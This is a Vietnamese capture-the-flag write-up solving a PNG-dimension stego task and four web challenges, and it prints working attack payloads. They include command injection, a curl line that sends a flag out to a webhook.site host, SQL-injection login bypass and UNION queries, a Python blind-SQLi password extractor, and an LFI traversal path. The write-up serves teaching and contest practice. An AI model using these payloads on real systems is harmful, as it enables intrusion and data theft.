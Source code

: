 # midterm-test-W1-writeup

## [Forensics] DIMENSION

### Challenge
> Yet Another Stego Challenge<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/657606fdb5faa98550bbdb665f794a44/attachment.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwMH0.ZLzsTA.3lJIkLTyxMF8Pd1n5uvdClmMM6A)

### Solution
- Ở đây đề bài cho 1 file ảnh với kích thước `0x0` kết hợp cùng tên đề bài mình đoán sẽ sửa 8 byte chiều dài và rộng để khôi phục lại bức ảnh ban đầu.
- Tool mình sử dụng ở đây là [png-dimensions-bruteforcer](https://github.com/cjharris18/png-dimensions-bruteforcer), điều chỉnh range bruteforce lên xíu ta sẽ thu được kết quả.
![](2023-07-23-16-14-05.png)
![](2023-07-23-16-14-49.png)
```
Flag: W1{d1meNsiOn_i5_cO0l_r19ht?}
```

## [Web] HEAD1

### Challenge
> [http://45.122.249.68:20018/](http://45.122.249.68:20018/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/8f80fff2c153912fc5322388b2b69332/head1.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNn0.ZLyUUw.qKuUDVqRmiQZwgtJUrvXOP3X2ZQ)

### Solution
```php
<?php

if (strpos($_SERVER['REQUEST_URI'], '_')) {
    die("no no no");
}

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_POST['input_data']);
    echo $output;
}

show_source(__FILE__);
```
- Ở bài này source code khá đơn giản đầu tiên là mình phải bypass được ký tự `_` trong `input_data`, thì ở đây đơn giản ta chỉ cần **URL encode** ký tự `_` sẽ bypass được điều kiện đầu tiên.
- Sang với điều kiện thứ 2, trong đầu mình đặt ra 1 câu hỏi là làm sao có thể truyền cùng lúc data cho `$_GET` và `$_POST`, giải pháp là ta sẽ sử dụng lệnh `curl` với option `-d` hoặc có thể gửi trực tiếp request thông qua `BurpSuite`

![](2023-07-23-10-06-39.png)
- Câu lệnh hoàn chỉnh như sau: `curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/\?input%5fdata\=`
- Request sẽ được gửi dưới dạng như sau
```http
POST /?input%5fdata= HTTP/1.1
Host: 45.122.249.68:20018
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

input_data=%3Bls%20%2F
```
- Kết quả nhận được là
![](2023-07-23-10-14-34.png)

```
Flag: W1{ez_head1_huh}
```

## [Web] HEAD2

### Challenge
> [http://45.122.249.68:20019/](http://45.122.249.68:20019/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/a6750a769d391094b4fa05b349cea45e/head2.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNH0.ZLyglw.YagF13lszTqadAdn95aq2a9FKK8)

### Solution
```php
<?php

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_GET['input_data']);
    // echo $output;
}

show_source(__FILE__);
```
- Ở bài này thì ta truyền vào được `OS Command` nhưng câu hỏi đặt ra là *Làm sao để đọc được kết quả ra đây?*
- Thì ở đây đầu tiên ta kiểm tra thấy sever không chặn kết nối ra ngoài, vậy nên giải pháp ở đây sẽ là đọc file và gửi nó ra ngoài Internet và bắt lại là xong.
- Payload: `; echo $FLAG | curl https://webhook.site/bb145fec-1626-4da3-b695-7cc86b11e295 --data-binary @-;`

```
Flag: W1{webhook_not_so_bad_huh?}
```

## [Web] DEJAVU

### Challenge
> Bài này quen quen 🐳 <br/>
> [http://45.122.249.68:20017/](http://45.122.249.68:20017/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/e68f2b74721ee7ce9863f1b983508161/dejavu.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwM30.ZLykUA.6cORsdHqk08qta_RVa7jUtuBp2s)

### Solution
- Bài này khá tương tự với 1 bài đã giải trong traning, cơ bản **flag** gồm 3 phần nằm hết ở database.
![](2023-07-23-10-56-15.png)
- Sơ qua về trang web thì ở trang `index.php` sẽ cung cấp cho ta 1 form login và qua file `login.php` khi ta đăng nhập thành công sever sẽ redirect qua `/news.php`. Ở dòng 13 ta có thể thực hiện **SQL Injection** để bypass qua phần login.
![](2023-07-23-10-58-50.png)
- Có 1 chú ý là ở file `news.php`, sever sẽ kiểm tra xem `$_SESSION['username']` của chúng ta có phải là `admin` hay không nên payload để **SQLi** phần login sẽ như sau:
    - `username`: `admin`
    - `password`: `' UNION SELECT username,password FROM users WHERE username='admin`
- Ở `/news.php` có 1 đoạn code khá *nhạy cảm* giúp chúng ta có thể truyền vào biến `$_GET['name']` qua đó có thể đọc nội dung từ database.
![](2023-07-23-11-04-09.png)
- Payload cho **Part 1**: `' UNION SELECT flag, flag FROM secret -- `
![](2023-07-23-11-07-36.png)
- Ở **Part 2** thì flag nằm trong 1 bảng ta chưa biết tên nên ta có thể sử dụng payload `' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS -- ` để in ra thông tin bao gồm tên các bảng và cột.
![](2023-07-23-11-09-50.png)
- Payload cho **Part 2**: `' UNION SELECT flag_5959595959408498_5959595959408498, flag_5959595959408498_5959595959408498 FROM secret_8489498498112318_8489498498112318 -- `
![](2023-07-23-11-10-34.png)
- Ở **Part 3** thì flag là mật khẩu của tài khoản `admin`, ở đây cách để khai thác sẽ là `bruteforce`. Xoá cookie đang có để reset `$_SESSION` rồi bruteforce password từ trang `login.php`. Script bruteforce như sau: *(ban đầu mình bruteforce theo kiểu truyền thống thì độ phức tạp khá lớn, hết giải có người anh chỉ điểm nên mình áp dụng binsearch giúp giảm độ phức tạp đi khá nhiều)*
```py
import requests

# charset = string.ascii_letters + string.digits + string.punctuation
url = "http://45.122.249.68:20017/login.php"


def check(pos, operator, mid):
    data = {
        "username": f"admin' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {pos}, 1)) {operator} {mid} -- ",
        "password": "abc",
    }
    r = requests.post(url, data=data)
    return r.url == "http://45.122.249.68:20017/news.php"


def bin_search(pos):
    # Giới hạn trên mình tự tăng bằng tay vì trong flag có thêm icon nên mình sẽ tăng từ từ.
    l, h = 0, 262144
    while h - l > 1:
        m = l + h >> 1
        if check(pos, ">", m):
            l = m
        else:
            h = m
    return chr(h) if check(pos, "=", h) else None


passwd = ""
found = False
while not found:
    found = True
    c = bin_search(len(passwd) + 1)
    if c:
        passwd += c
        found = False
        print("Password: ", passwd)
        if c == "}":
            break
```
![](2023-07-23-15-58-12.png)
```
Flag: W1{part1_part2_part③_ⓓⓔⓙⓐⓥⓤ_福🐳😁}
```

## [Web] SIMPLE STUFF

### Challenge
> Trang báo này đăng nhiều tin hay phết, dù là toàn gen từ ChatGPT... nhưng mà khoan đã, hình như trang web này có vấn đề gì đó... Bạn có thể tìm ra vấn đề của trang web này không? <br/>
> [http://45.122.249.68:20020/](http://45.122.249.68:20020/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/17d67af31ce59c474ee7f8f8aabc8a39/simple_stuff.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjExNX0.ZL0AJQ.SqIYeU2j6t4AtHEcFTfgnBPKqg8)

### Solution
- Sơ qua về source code thì ở `Dockerfile` của backend thì ta thấy flag nằm ở `/flag.txt`, `Ctrl+Shift+F` thì thấy nội dung của file được sử dụng ở `admin/index.php` vậy thì trước tiên ta cần truy cập được endpoint này.
- Ở file `index.php` của backend ta có thể thấy `$_GET["id"]` được nối chuỗi trực tiếp vào `articles/news` và đoạn code còn sử dụng 1 hàm khá nguy hiểm là `include()`
![](2023-07-23-17-44-00.png)
 nên ta có thể `LFI` đến endpoint `admin/index.php` thông qua payload `?id=../../../admin/index.php`
 ![](2023-07-23-17-46-46.png)
 - Nội dung của file `/flag.txt` được **XOR** với `username` và gán kết quả vào biến `$_SESSION["id"]`
 ![](2023-07-23-18-22-18.png)
 - Giải thích sơ qua về hàm `do_xor`, hàm này thực hiện **XOR** 2 chuỗi nếu `$str_2` có độ dài chưa bằng `$str_1` sẽ thêm `=` vào cuối `$str_2` tới khi 2 chuỗi bằng độ dài. Hàm thực hiện **XOR** lần lượt từng ký tự và nối vào `$result` và dùng `-` để ngăn cách giữa các kết quả.
- Vậy ở đây cần thực hiện `SQLi` để login thành công và có được `$_SESSION["id"]` rồi thực hiện `reverse XOR` và lấy được **flag**.
